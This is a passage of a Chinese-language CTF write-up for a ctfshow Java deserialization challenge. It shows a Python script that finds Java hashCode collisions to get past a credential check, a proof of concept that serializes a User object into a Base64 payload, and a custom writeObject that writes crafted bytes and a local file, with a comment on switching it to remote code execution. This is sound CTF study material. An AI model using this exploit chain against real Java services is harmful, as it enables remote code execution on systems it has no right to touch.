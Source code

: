 ```java  
	}    
	if(var3.equals(admin)){    
		Runtime.getRuntime().exec(shellCode);    
```  
实例化传入的`username`和`password`不能是`ctfshow`和`123456`，但是`hash`比较的时候又相等。  
这个时候需要用到`Java`里的`hash`碰撞  
```java  
def hashcode(val):  
    h=0  
    for i in range(len(val)):  
        h=31 * h + ord(val[i])  
    return h   
t="ct"  
#t="12"  
for k in range(1,128):  
    for l in range(1,128):  
        if t!=(chr(k)+chr(l)):  
            if(hashcode(t)==hashcode(chr(k)+chr(l))):  
                print(t,chr(k)+chr(l))  
  
```  
得到  
`ct,dU 12,0Q`  
构造完整的`Poc`  
```java  
package com.ctfshow;    
    
import com.ctfshow.entity.User;    
    
import java.io.*;    
import java.util.Base64;    
    
public class Vuln {    
    public static void main(String[] args) throws Exception{    
        User user = new User("dUfshow","0Qahua");    
    
        ByteArrayOutputStream baos = new ByteArrayOutputStream();    
        ObjectOutputStream oos = new ObjectOutputStream(baos);    
        oos.writeObject(user);    
        String payload = Base64.getEncoder().encodeToString(baos.toByteArray());    
        System.out.println(payload);    
    }   
}  
```  
重写的writeObject  
```java  
private void writeObject(ObjectOutputStream out) throws Exception{    
    out.writeInt(2135247942);  
    out.writeByte(1); //执行RCE的时候，将这里改成2下面注释掉即可  
	///////////////////////////  
    out.writeInt(0x36d);    
    File filename = new File("/Users/f10wers13eicheng/Desktop/JavaSecuritytalk/JavaThings/VulnDemo/src/main/java/org/example/bash");    
    BufferedInputStream in = new BufferedInputStream(new FileInputStream(filename));  
    byte[] temp = new byte[1024];  
    int size = 0;    
    while((size = in.read(temp)) != -1){    
        out.write(temp,0,size);    
    }    
    in.close();      
    /////////////////////////  
    out.defaultWriteObject();    
}  
```  